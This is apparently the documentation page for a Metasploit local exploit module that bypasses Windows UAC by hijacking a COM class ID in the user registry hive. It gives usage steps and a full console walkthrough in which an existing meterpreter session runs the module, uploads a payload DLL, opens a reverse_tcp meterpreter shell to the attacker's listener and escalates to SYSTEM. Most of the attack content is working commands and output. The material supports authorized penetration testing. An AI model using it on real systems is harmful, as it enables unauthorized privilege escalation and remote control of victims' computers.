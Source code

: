## Introduction

This module will bypass UAC on Windows 7 through to 10 RS3 by hijacking a COM Class ID
that is located in the current user hive. This key contains a reference to a DLL that
contains a chosen payload. Multiple COM vectors are defined in this module and one is
chosen at random at runtime.

The module modifies the registry in order for this exploit to work. The modification is
reverted once the exploitation attempt has finished.

This module requires that the payload architecture matches the target operating system
architecture. This is due to the fact that the underlying binaries that are invoked
match the system architecture.

If a custom DLL is to be used with `EXE::Custom`, that DLL must match the system
architecture, and should call `ExitProcess()` after starting the payload in a
different process.

## Usage

1. Create a session on the target system under the context of a local administrative user.
1. Begin interacting with the module: `use exploit/windows/local/bypassuac_comhijack`.
1. Set the `PAYLOAD` and configure it correctly, making sure the architecture is correct.
1. If an existing handler is configured to receive the elevated session, then the module's
   handler should be disabled: `set DisablePayloadHandler true`.
1. Make sure that the `SESSION` value is set to the existing session identifier.
1. Invoke the module: `run`.

## Scenarios

```
msf exploit(bypassuac_comhijack) > sessions

Active sessions
===============

  Id  Type                     Information                           Connection
  --  ----                     -----------                           ----------
  1   meterpreter x64/windows  DESKTOP-5A73R51\oj @ DESKTOP-5A73R51  xxx.xx.255.1:8443 -> xxx.xx.255.159:51474 (xxx.xx.255.159)

msf exploit(bypassuac_comhijack) > sessions -1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : DESKTOP-5A73R51
OS              : Windows 10 (Build 14393).
Architecture    : x64
System Language : en_AU
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows

meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: The environment is incorrect. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
meterpreter > background
[*] Backgrounding session 1...
msf exploit(bypassuac_comhijack) > options

Module options (exploit/windows/local/bypassuac_comhijack):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     xxx.xx.255.1     yes       The listen address
   LPORT     8443             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(bypassuac_comhijack) > run

[*] [2017.08.16-12:58:31] UAC is Enabled, checking level...
[+] [2017.08.16-12:58:31] Part of Administrators group! Continuing...
[+] [2017.08.16-12:58:32] UAC is set to Default
[+] [2017.08.16-12:58:32] BypassUAC can bypass this setting, continuing...
[*] [2017.08.16-12:58:33] Targeting Event Viewer via HKCU\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931} ...
[*] [2017.08.16-12:58:33] Uploading payload to C:\Users\oj\AppData\Local\Temp\DJAyEYXA.dll ...
[*] [2017.08.16-12:58:33] Executing high integrity process ...
[*] [2017.08.16-12:58:34] Sending stage (1188415 bytes) to xxx.xx.255.159
[*] Meterpreter session 2 opened (xxx.xx.255.1:8443 -> xxx.xx.255.159:51480) at 2017-08-16 12:58:35 +1000
[*] [2017.08.16-12:58:38] Cleaining up registry ...
[!] [2017.08.16-12:58:39] This exploit may require manual cleanup of 'C:\Users\oj\AppData\Local\Temp\DJAyEYXA.dll' on the target
msf exploit(bypassuac_comhijack) > sessions

Active sessions
===============

  Id  Type                     Information                           Connection
  --  ----                     -----------                           ----------
  1   meterpreter x64/windows  DESKTOP-5A73R51\oj @ DESKTOP-5A73R51  xxx.xx.255.1:8443 -> xxx.xx.255.159:51474 (xxx.xx.255.159)
  2   meterpreter x64/windows  DESKTOP-5A73R51\oj @ DESKTOP-5A73R51  xxx.xx.255.1:8443 -> xxx.xx.255.159:51480 (xxx.xx.255.159)

msf exploit(bypassuac_comhijack) > sessions -1
[*] Starting interaction with 2...

meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
